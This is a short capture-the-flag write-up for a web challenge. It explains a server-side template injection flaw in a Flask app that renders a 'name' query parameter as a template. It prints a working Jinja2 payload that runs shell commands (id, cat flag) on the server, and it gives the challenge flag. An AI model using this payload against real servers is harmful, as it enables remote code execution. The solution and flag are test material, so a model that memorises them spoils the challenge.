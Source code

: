 # whats-your-name-part2:Web

Flag Proof: `CTF{75df3454a132fcdd37d94882e343c6a23e961ed70f8dd88195345aa874c63e63}`

## Summary:

- Taking a look at the page, we see a flask debugging error page
- It seems to be using templates to show the name we put in a GET param back to us

```python
@app.route("/")

def home():

        output = request.args.get('name')
        output = render_template_string(output)
```

- Knowing this now it is obviously that this is about a SSTI (Server-Side-Template-Injection)
    - Using these two sites
        - [https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
        - [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
    - Can get us a good understanding about SSTI and how it works, and also gives us the payload we need to exploit it.
    - This one-liner is the easiest way to do it ( the other way is doing it manually and searching for the proper class to give us RCE
    
    ```python
    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    ```
    
- Using this payload as a name parameter will give us the flag
    - `{{request.application.**globals**.**builtins**.**import**('os').popen('cat flag').read()}}`
    
    ![Untitled](whats-your-name-part2%20Web%20514d4df6316b49ca9be263e076cc4868/Untitled.png)